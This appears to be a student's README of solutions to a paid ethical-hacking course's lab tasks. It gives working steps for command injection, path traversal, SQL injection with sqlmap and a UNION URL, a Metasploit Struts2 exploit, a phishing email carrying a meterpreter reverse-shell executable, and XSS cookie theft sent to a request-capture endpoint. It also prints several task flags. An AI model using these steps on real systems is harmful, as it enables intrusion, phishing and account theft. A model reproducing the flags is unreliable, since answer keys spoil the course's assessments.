<div align="center">

# "Profession - WHITE HACKER" Course


<p align="center">
  
</p>

The course "Profession - WHITE HACKER" was developed by members of the professional community. They have collected the best of their practical experience and talk about who white hat hackers are, what tasks they face, and how to master this profession.

## Course Details

- Duration: 48 academic hours
- Attack Levels: 12 levels
- Format: Recorded online course

## Course Contents

This repository contains the solutions to the tasks presented in the course. You can explore how I found answers to their challenges and learn from the practical examples.

## Table of Contents

1. Level 1. Reconnaissance in the Customer's External Infrastructure
2. Level 2. Primary Access Attacks
3. Level 3. Access Consolidation
4. Level 4. Privilege Escalation on Server Systems
5. Level 5. Breaking the DMZ Boundaries
6. Level 6. Network Traffic Forwarding
7. Level 7. Network Reconnaissance and Compromising Windows Machines
8. Level 8. Privilege Escalation on Local Network Nodes
9. Level 9. Seizing Control of Network Infrastructure

## Level 1 — 3.6 Practice "Intelligence in the external network"

### Task:

Analyze the existing subdomains of the main cyber-ed.ru domain. Find a domain that looks like the domain name for the job and examine its DNS TXT records.

As proof of successful operation, provide a flag (a secret string in the format of 32 letters and numbers in loose text) from a TXT DNS record (To obtain TXT records for a domain, run the nslookup -q=TXT domain.name command).

To locate a subdomain, use all of the domain name lookup tools listed in the course materials.

### How to solve:

#### Subdomain Enumeration

There are two and even more ways to perform subdomain enumeration for the domain `cyber-ed.ru`. Choose one of the following methods:

#### Method 1: Using crt.sh Website

1. Go to [crt.sh](https://crt.sh/?q=cyber-ed.ru).
2. You will see a list of subdomains for the domain `cyber-ed.ru`, as shown in the screenshot below:



#### Method 2: Using Amass Command-Line Tool

1. Type the following command to use Amass for subdomain enumeration:
```bash
amass enum -v -src -ip -d cyber-ed.ru
```

2. The tool will find and display active subdomains for the domain `cyber-ed.ru`, as shown in the screenshot below:



#### Task Subdomain

To find the answer related to the task subdomain, you can use `nslookup` command as follows:

```bash
nslookup -q=ANY task.cyber-ed.ru
```

You will see this:



Feel free to use any of the above methods to explore and work with the subdomains for the domain `cyber-ed.ru`.

## Level 2.1 — 5.2 Practice "Authentication Bypass Vulnerabilities"

## Task:

Analyze the security of the administrative panel authentication mechanisms and exploit the vulnerabilities found.

As proof of successful operation, provide a flag (a secret string in the format of 32 letters and numbers) from the admin panel page code.

### Question for Self-Test During Work with This Laboratory Stand:

What dangerous things can an attacker do in this information system? What risks could he realize?

## Preparation

Requirements for the laboratory stand:

- Docker and docker-compose software must be installed on your premises.
- Supported OS: Linux, Windows, MacOS (x64/arm).

### To Prepare the Stand:

1. Download the archive from the link: [courses-shop.zip](https://cybered-my.sharepoint.com/:u:/g/personal/v_karmanov_cyber-ed_ru/EfbBb1QSvkNNnLfsmo_Ew44BwU3Kgz_N6kpnrIUN56IulQ?e=Qe6hVZ) (Mirror: [courses-shop.zip Yandex.Disk](https://disk.yandex.ru/d/bXfeC1DM4vrUsw)).
2. Unpack this archive and navigate to the specified directory `courses-shop-prod` in the terminal shell of your OS.
3. Run the command (with the Docker Desktop service running):

```bash
docker-compose up -d
```

Access the laboratory stand at http://localhost:1337.

#### Possible problems:

- On some computers, applications may be waiting for a database connection. It depends on the capacity of your computer.

- For the same reason, the bot (application manager) may not play if the database starts within 15 seconds. If necessary, you can reload the bot service from the application folder after loading the command database:
```bash
docker-compose restart bot
```
- If you encounter the error kali response: sock.connect(self.unix_socket) PermissionError: [Errno 13] Permission denied, you can try running the command through sudo.


Mandatory presence in the application directory, in the same place as the docker-compose.yml file


## How to solve:

Once you have started the Docker environment and the application is running, you can use Burp Suite for analyzing and exploiting potential vulnerabilities in the authentication mechanisms of the administrative panel.

Follow these steps:

- Open Burp Suite and Intruder the HTTP requests by navigating to the Proxy tab and turning on Intruder.

- Access the application's login page through your browser, and you should see the login request appear in Burp Suite.

- Right-click on the login request in Burp Suite and send it to the Intruder for further analysis.

- In the Intruder, locate the login parameters, specifically the username and password fields. Set up a brute-force attack to guess the admin password.

- Run the brute-force attack, and once the password for the username "admin" is successfully obtained, make a note of it.

- Next, if the application has a second-factor authentication mechanism, you can set up a second brute-force attack to guess the authentication code.

- For the second brute-force attack, go through all possible numeric combinations from 0 to 1000 (or any relevant range based on the application's configuration).

- When the response code of a request is 303, it indicates a successful login with the second-factor authentication. Note the successful numeric combination.

- With the obtained password and second-factor authentication code, navigate to the administrative panel login page.

- Log in using the credentials, and you should be redirected to the admin panel.

Once you access the admin panel, inspect the page source or relevant sections to find and copy the secret key (It's visible in the HTML source).

## Level 2.1 — 5.3 Practice "Vulnerabilities of OS command injection"

### Task

Analyze the security of the mechanism for working with OS processes on the main page of the admin panel. Finding and Exploiting Terminal Shell Command Injection Vulnerabilities on this page.

As proof of a successful operation, provide a flag (a secret string in the format of 32 letters and numbers) from the environment variables of the operating system.

Environment variables can be obtained by executing the "export" command of the OS terminal shell.

### How to solve

- Access the admin panel using BurpSuite by following the method described in the provided video tutorials or other available resources.

- Observe the running services on the admin panel and verify if the "apache2" service is active by entering "apache2" into the terminal. Ensure the server responds correctly.

- Test the usage of the pipe symbol (|) in the terminal by entering the command "apache2 | ll" to check if it works as expected.

- Utilize the pipe symbol again by entering "apache2 | export" to view the OS environment variables.

- Look for the line containing the export statement, specifically: "export FLAG='c2098cad00958121da83a936845f41e7'".

- Retrieve the value of the FLAG, which is "c2098cad00958121da83a936845f41e7", and use it as an answer or for any other purpose as required.



## Level 2.1 — 5.4 Practice "Vulnerabilities of OS command injection"

### Task

Analyze the security of the mechanism for checking information about an order in an online store. Detect access control vulnerabilities that allow you to inspect the contents of other users' orders.

As confirmation of the successful exploitation of the vulnerability, provide a flag (a secret string in the format of 32 letters and numbers) from the 1st order in the online store.

### How to solve

The simplest and least creative method to obtain the necessary flag is by following this link: http://localhost:1337/receipt.php?orderID=1. On the page that opens, scroll down to find the very last field, where the flag will be displayed.




## Level 2.1 — 5.5 — Practice "Directory access control vulnerabilities"

### Task
Analyze application traffic and investigate image loading mechanisms in the application. Find directory path manipulation vulnerabilities and exploit them.

As proof of successful exploitation of the vulnerability, provide a flag (a secret string in the format of 32 letters and numbers) from the /etc/passwd file.

### How to solve 

Course of action

1. Load the main page http://evil.corp:1337 and analyze requests in BurpSuite, after enabling the display of images in the filter
2. As you can see, the image.php script is responsible for displaying the images, and the name of the image is passed through the file parameter
3. Send this request to the Repeater for further analysis
4. In this mode, we can freely edit the request, resend it to the server and get the result. For analysis, let's change the value of the file parameter to an incorrect one, for example, remove the last character from the image name
5. From the error message, we will get information about the real path to the image on the server side and the location of the script. Let's try to use an absolute path to a file that should definitely be on the remote Linux system, for example, /etc/hosts
6. This attempt didn't work because the value of the file parameter is concatenated with the path to the /var/www/html/static image directory, resulting in a non-existent /var/www/html/static//etc/hosts file. We can try to get outside the image directory in another way - using relative paths in Linux, where ./ denotes the current directory, and ../ the directory one level up

So with each ../ we go up a level from /var/www/html/static/ and the path /var/www/html/static/../../../../ becomes equivalent to the path to the / root directory, which makes it possible to access any files on the system, such as /etc/passwd.



## Level 2.1 — 5.6 — Practice "SQL Injection Vulnerabilities"

## Task
Analyze the security of the mechanism for checking information about an order in an online store. Find SQL injection vulnerabilities and exploit it.

As confirmation of successful exploitation of the vulnerability, provide a flag (a secret string in the format of 32 letters and numbers) from a secret column of a secret table whose names you do not know in advance.

## How to solve

With sqlmap it's really easier to do it all, though not so clearly.
```bash
sqlmap -u 'http://evil.corp:1337/receipt.php?orderID=1'
``` 
default testing
```bash
sqlmap -u 'http://evil.corp:1337/receipt.php?orderID=1' --dbs
``` 
search for databases, find among other standard Task databases
```bash
sqlmap -u 'http://evil.corp:1337/receipt.php?orderID=1' -D Task --tables
```
look for tables in the Task database, find the super_secret_table table
```bash
sqlmap -u 'http://10.1.201.58:1337/receipt.php?orderID=1' -D Task -T super_secret_table --dump
```
 start table search
##### The results are in
```bash
 ~/.../share/sqlmap/output/evil.corp/logs
```

#### OR
Modify the URL as follows: [http://localhost:1337/receipt.php?orderID=-1%20UNION%20SELECT%201,2,3,4,super_secret_column,6,7,8%20FROM%20super_secret_table%20--%20-](http://localhost:1337/receipt.php?orderID=-1%20UNION%20SELECT%201,2,3,4,super_secret_column,6,7,8%20FROM%20super_secret_table%20--%20-)



## Level 2.1 — 5.7 — Practice "XML External Entity Injection Vulnerabilities"

## Task

Analyze the security of the order creation mechanism. Find XML eXternal Entities injection vulnerabilities and exploit it.

As proof of successful exploitation of the vulnerability, provide a flag (a secret string in the format of 32 letters and numbers) from the /var/www/secret file.

## How to solve

1. Go to the main page of the site http://evil.corp:1337/ and fill out the form


2. Let's analyze requests in BurpSuite. When submitting this form, a POST request was generated to order.php, let's open it in Repeater


3. For vulnerability testing, we use a list of payloads: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md

##### Let's introduce a classical load:



4. Follow the link http://evil.corp:1337/receipt.php?orderID=6 and see the contents of secret in the comments field:



## Level 2.1 — 5.8 — Practice "Cross-Site Scripting (XSS) Attacks"

## Task 

Analyze the security of the order creation mechanism. The application administrator opens a page with each order that you have created and checks its content after the order is created. Find vulnerabilities that allow cross-site scripting attacks and exploit them.

As proof of successful exploitation of the vulnerability, provide a flag (a secret string in the format of 32 letters and numbers) from the cookie data of the application administrator who opened your order page.

## How to solve

1. Go to the main page of the site http://evil.corp:1337/
2. Find this request in BurpSuite, send it to the Repeater and embed a quote in the phone field
3. Let's send the application and look at the completed form in the html code using the browser tools
```text
As you can see, the quote was not escaped, which indicates the possibility of exploiting the XSS vulnerability - cross-site scripting, which consists in injecting your JavaScript code into the site page and then executing it by the attacked user's browser.
```

4. Introduce the “>” sign in the same way to break the HTML tag and insert your own; at the same time, make sure that the closing angle bracket is also not escaped.

5. Use the payload to issue message 1 to everyone who opens the order page:

```bash
+79117238383”>
```

However, when sending a request to BurpSuite, this payload throws an error

6. Encode this payload using Decoder

Now the error does not occur, and when we enter the page, we get the following message:



7. One of the most common attack scenarios in this situation is passing a visitor's Cookie to the attacker. To accept the request, we will use the resource https://requestbin.com/. Use the URL specified in the Endpoint field to receive the Cookie:

```bash
+79117238383”>
```

where ADDR is the address of your endpoint.

8. Re-encode the payload and send it in a request, and then open a new order, after which a request with a flag will appear in the pipedream interface.

### My Journey to Obtaining This



#### Successfully Accomplished: The Pasting Process



#### Console Pasting Option



##### Witness the Results: Reloading the Page



### Possible Problem

For those who do not receive a flag in the mail, although cookies are received: it is necessary to reload the bot service from the application folder after loading the database with the command:

```bash
docker-compose restart bot
```


## Level 2.2 — 6.3 — Practice "Exploitation of vulnerabilities of the 1st day of network services"

## Task

Analyze the web application deployed at http://localhost:1337. Find the software version and its name, try to determine the presence of known vulnerabilities in this software using the Metasploit framework. Exploit a known vulnerability in your application's framework.

As proof of successful exploitation, provide a flag (a secret string in the format of 32 letters and numbers) from the root.txt file located in the /root/ directory.

## How to solve
### Preparation
Requirements for the laboratory stand:

Docker and docker-compose software must be installed on your operating system.

Supported OS: Linux, Windows, MacOS (x64/arm).


#### To prepare the stand:

You need to download the archive from the link: [service-exploit.zip](https://cybered-my.sharepoint.com/:u:/g/personal/v_karmanov_cyber-ed_ru/EcKDQRzvnvlCixDjZN6-ilkB5ye1nymeVfsvCOfAVlIV-w?e=iZcFld) (Mirror: [service-exploit.zip](https://disk.yandex.ru/d/m88Ujs4R0LSCCg) Yandex.Disk)


Unpack this archive and go to the service-exploit-prod directory that appears in the terminal shell of your OS. Run command:
```bash
docker-compose up -d
```
The lab application will appear at http://localhost:1337.
 

#### Possible problems:

If you have not disabled past lab benches, you may receive an error:

Bind for 0.0.0.0:1337 failed: port is already allocated

In this case, run the docker ps command, find a running container that uses the previously occupied port, and stop it with the command:
```bash
docker stop [container name or id]
```
### Now, We`re Ready To Go!
```bash
msfconsole <- Launch framework
```
```bash
search struts showcase <- Search for all possible exploits containing the string “struts showcase”
```
```bash
use exploit/multi/http/struts2_code_exec_showcase <- Select an exploit to work with later setup
```
```bash
info <- Examining information about the exploit
```
```bash
options <- Demonstration of options for configuring the exploit
```
```bash
set RHOSTS localhost <- Set up the host to use the exploit
```
```bash
set RPORT 1337 <- Set the port to apply the exploit to
```
```bash
set TARGETURI /integration/saveGangster.action <- Setting the location of the vulnerable plugin on the site
```
```bash
set PAYLOAD cmd/unix/generic <- Setting the “load” executable after the exploit is applied
```
```bash
set CMD 'cat /root/root.txt' <- Set load options (Indicate the command to be executed)
```
```bash
check <- Using a “checker” to check the correctness of the configured exploit
```
```bash
exploit <- Exploitation of a vulnerability
```



# Level 2.3 — 7.3 — Practice "Social Engineering"

## Task
Your task is to prepare an executable file (extensions .exe) with msfvenome and send it to the workstation user mike@sandbox.local in order to take control of his machine with MetaSploit.

In order to send a letter to the laboratory bench you have deployed, you can use various mail agents, for example: swaks (To install on Kali Linux: apt install swaks).

Since the lab that you will be attacking is a mail server, you need to send a letter using it, that is, the mail server address should be the IP address of the lab that you deployed.

An example of a command to send an email:
swaks --to mike@sandbox.local --from administrator@sandbox.local --header "Subject: Updates" --body "Please run this exe file for updates" --server 192.168.1.102 --attach example.exe

, where 192.168.1.102 is the IP address of the laboratory stand you deployed, example.exe is the load you prepared to receive the reverse shell.

As an answer, provide the flag from the root.txt file on Mike's desktop.

## How to solve

1. Install Kali Linux and Windows 10 on VirtualBox.

2. In the VirtualBox network manager, create a new NAT network with addresses `10.0.2.0/24`. In the OS settings, specify the "NAT network" connection with this network and turn off the Internet.

3. On Windows 10, run the `ipconfig` command in the CMD prompt and remember the IP address, for example `10.0.2.15`.

4. In Kali Linux:
    - Determine Kali's IP address: `$ip address`.
    - Identify devices on the network: `$ sudo nmap -sn --traceroute 10.0.2.0/24`.
    - Check open ports on a specific device: `$ sudo nmap -sS 10.0.2.15`.

5. Create Meterpreter Payload for Windows: `$ msfpc windows 10.0.2.4`.

```bash
[i] IP: 10.0.2.4
[i] PORT: 443
[i] TYPE: windows (windows/meterpreter/reverse_tcp)
[i] windows meterpreter created: '/home/kali/windows-meterpreter-staged-reverse-tcp-443.exe'
```
6. In a new terminal, run Metasploit: `$ msfconsole`.
- Select an exploit to handle the connection: `msf6 > use exploit/multi/handler`.
- Set parameters for the exploit:
   ```
   msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
   msf6 exploit(multi/handler) > set LHOST 10.0.2.4
   msf6 exploit(multi/handler) > set LPORT 443
   ```
- Run the exploit: `msf6 exploit(multi/handler) > run`.

7. Return to the first Kali terminal and send Payload to Win10:
```bash
$ swaks --to mike@sandbox.local --from administrator@sandbox.local --header "Subject: Updates" --body "Please run this exe file for updates" --server 10.0.2.15 --attach windows-meterpreter-staged-reverse-tcp-443.exe
```
8. In a second terminal, start the Meterpreter session:
```bash
meterpreter > ls - we ended up in C:\Windows\system32
meterpreter > cd ..
meterpreter > ls - we ended up in C:\Windows
meterpreter > cd ..
meterpreter > ls - we ended up in C:
meterpreter > cd users
meterpreter > cd Mike
meterpreter > cd Desktop
meterpreter > cat root.txt
54817fe7049221c92542027300015b60
```

# Level 3 — 8.3 — Practice "Securing Access"

## Task
Exploit the vulnerabilities of the application deployed at http://localhost:1337 that you already know. Now, after exploiting the vulnerabilities, generate a load to secure access to the system using the pupy utility. Send this payload to the compromised system and run it there.

As proof of successful exploitation, provide the information output by the load generated and run on the affected system using the info command.
(Specify the entire output of the info command as an answer to the assignment)

An example of the output of the info command (The example contains errors so that it cannot be used to provide as an answer):
```bash
hostname 0de31e0fa758
user root
release 5.10.104-linuxkit
os_arch x86_64
proc_arch 64bit
pid 170
exec_path?
cid 000000006b6200bb
address 172.18.0.2
macaddr 00:00:00:00:00:00
revision?
node 000000000000
debug_logfile ?
version #1 SMP PREEMPT Thu Mar 17 17:05:54 UTC 2022
native True
proxy wpad
cmdline /bin/daemon
external_ip ?
launcher connect
launcher_args -t ssl --host 172.18.0.3:8443
platform linux/arm64
```

## Preparing
To prepare the stand:

You need to download the archive from the link: [Download persistence-lab.zip](https://cybered-my.sharepoint.com/:u:/g/personal/v_karmanov_cyber-ed_ru/ETQxfaOMcjNOt3_N7fNc0oABFc9zxS3X_FWAGky-SMncaQ?e=Re1aSG) (Mirror: [Download persistence-lab.zip from Yandex.Disk](https://disk.yandex.ru/d/HPc2quwEOko_6g))

Unpack this archive and go to the persistance-lab-prod directory that appears in the terminal shell of your OS.
Run command:
```bash
docker-compose up -d
```
The lab application will appear at http://localhost:1337. Port 2022 will also appear. You can connect to it using the ssh protocol and the command:
```bash
ssh -i ~/.ssh/id_rsa -p 2022 pupy@127.0.0.1
```
In order for the connection to succeed, send your public SSH key to the application's authorized keys directory with the following command:
```bash
cp ~/.ssh/id_rsa.pub /tmp/projects/keys/authorized_keys
```
If you don't have existing SSH keys, generate them. Run the ssh-keygen command and hit enter a few times until the script ends.
 

Possible problems:

1. If you have not disabled past lab benches, an error may appear:

Bind for 0.0.0.0:1337 failed: port is already allocated.

In this case, run the docker ps command to find a running container that uses the previously occupied port and stop it with the command:
```bash
docker stop [container name or id]
```
